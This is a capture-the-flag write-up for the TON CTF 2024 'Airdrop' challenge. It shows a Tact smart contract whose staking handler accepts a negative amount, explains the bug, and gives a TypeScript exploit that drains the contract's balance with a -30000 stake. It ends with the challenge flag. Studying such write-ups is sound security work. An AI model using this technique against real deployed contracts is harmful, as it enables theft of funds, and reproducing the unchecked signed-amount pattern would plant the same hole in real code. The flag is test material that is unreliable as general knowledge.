 ```yaml
---
title: Blockchain - Airdrop
description: 2024 | TON CTF
tags:
    - ton
    - tact
---
```


## Description

> [Challenge Files](https://github.com/TonBitSec/TonCTF-Challenges/tree/6dc2518086f88006a4dd4dd0bfef963b1f13c33b/airdrop)

??? note "Airdrop.tact[^dup]"

    ```rs
    const CLAIM_AMOUNT: Int = 1;
    const INIT_SUPPLY: Int = 30000;

    message UserStake{
        amount: Int;
    }

    message UserWithdraw{
        amount: Int;
    }

    message StakeEvent{
        sender: Address;
        amount: Int;
    }

    contract AirDrop {

        total_balance: Int as uint256;
        user_info: map<Address, Int>;
        user_claim_info: map<Address, Bool>;

        init(version: Int) {
            self.user_info = emptyMap();
            self.total_balance = INIT_SUPPLY;
        }

        receive("AirDrop") {
            require(self.user_claim_info.get(sender()) == null, "Have claimed");
            let user_staked: Int = 0;
            if (self.user_info.get(sender()) != null) {
                user_staked = self.user_info.get(sender())!!;
            }
            self.total_balance = self.total_balance - CLAIM_AMOUNT;
            self.user_info.set(sender(), user_staked + CLAIM_AMOUNT);
            self.user_claim_info.set(sender(), true);
        }

        receive(msg: UserStake) {
            require(context().value > msg.amount, "Incorrect TON value");
            let user_staked: Int = 0;
            if (self.user_info.get(sender()) != null) {
                user_staked = self.user_info.get(sender())!!;
            }
            self.total_balance = self.total_balance + msg.amount;
            self.user_info.set(sender(), user_staked + msg.amount);
        }

        receive(msg: UserWithdraw) {
            require(self.user_info.get(sender()) != null && self.user_info.get(sender())!! != 0, "Nothing to withdraw");
            let user_staked: Int = 0;
            user_staked = self.user_info.get(sender())!!;
            require(msg.amount <= user_staked, "Insufficient balance");
            self.total_balance = self.total_balance - msg.amount;
            if (msg.amount == user_staked) {
                self.user_info.del(sender());
            } else {
                self.user_info.set(sender(), user_staked - msg.amount);
            }
        }

        get fun balance(): Int {
            return self.total_balance;
        }

        get fun is_solved(): Bool {
            return self.total_balance == 0;
        }
    }
    ```

## Solution

- There is a state variable `total_balance` with value `30000` initially. The goal of this challenge is to make `total_balance` equal to zero
- There are three operations:
    - **AirDrop** Each user can execute once and `total_balance` will be subtracted by 1.
    - **UserStake** Increase `total_balance` and `user_staked` with user-provided `msg.amount`.
    - **UserWithdraw** Decrease `total_balance` and `user_staked` with user-provided `msg.amount`. The `msg.amount` should not be greater than `user_staked`.
- Since `UserStake` does not check `msg.amount` which is of type `Int`, we can provide a negative value to reduce `total_balance`

    ```rs
    receive(msg: UserStake) {
        require(context().value > msg.amount, "Incorrect TON value");
        let user_staked: Int = 0;
        if (self.user_info.get(sender()) != null) {
            user_staked = self.user_info.get(sender())!!;
        }
        self.total_balance = self.total_balance + msg.amount;
        self.user_info.set(sender(), user_staked + msg.amount);
    }
    ```

### Exploitation

Create a `solve.ts` under the `sources/` and run `yarn solve`.

```ts
import { Address, toNano, TonClient, WalletContractV4 } from "@ton/ton";
import { mnemonicToPrivateKey } from "ton-crypto";
import { AirDrop } from "./output/Airdrop_AirDrop";
import * as dotenv from "dotenv";
dotenv.config();

(async () => {
    const client = new TonClient({
        endpoint: "http://65.21.223.95:8081/jsonRPC",
    });

    let mnemonics = (process.env.mnemonics_2 || "").toString();
    console.log(mnemonics);

    let keyPair = await mnemonicToPrivateKey(mnemonics.split(" "));
    let secretKey = keyPair.secretKey;
    let workchain = 0; // we are working in basechain.
    let deployer_wallet = WalletContractV4.create({ workchain, publicKey: keyPair.publicKey });
    console.log(deployer_wallet.address);

    let deployer_wallet_contract = client.open(deployer_wallet);

    let target = Address.parse(CONTRACT);

    let contract_open = await client.open(AirDrop.fromAddress(target));
    await contract_open.send(
        deployer_wallet_contract.sender(secretKey),
        {
            // deducting fees from it
            value: toNano("0.1"),
        },
        {
            "$$type": "UserStake",
            "amount": -30000n,
        }
    );
})();
```

### Flag

> flag{9uhaXCAoWxGi}_Airdrop

## References

- [TonBitSec / ton-sample](https://github.com/TonBitSec/ton-sample/tree/054915e9f0655d39e60d0b6740692615da37e023/sources)

[^dup]: The `init` function adds a `version` parameter to avoid instance contracts having the same address.
